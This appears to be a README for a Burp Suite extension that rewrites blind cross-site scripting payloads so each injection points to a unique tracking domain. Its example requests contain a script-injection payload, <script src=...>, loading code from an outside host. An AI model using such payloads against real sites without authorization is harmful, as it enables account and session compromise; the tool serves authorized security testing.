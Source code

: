 # What is the this tool for?

This tool can be used to generate relevant XSS addresses that can be used to track HTTP requests. By using this tool, all your injection attempts will be tracked and the reports you generate will include the full HTTP request in the final output.

# Setup

You can download the jar directly and load it into burpsuite.

After loading the plugin, a new tab will be created, as shown below.

<img width="1048" alt="image" src="https://user-images.githubusercontent.com/16237562/215692824-f1174bbc-d00d-4d7e-b5b0-dd171aae7ac9.png">

Just fill in the form and click Login.

`replace` is the javascript address that needs to be replaced.

For example (`replace` is `test123`)

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: test123

content=testhello<script src="test123"></script>
```

Finally the extension will automatically update the request

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: https://request-id-domain.xss.cl

content=testhello<script src="https://request-id-domain.xss.cl"></script>
```

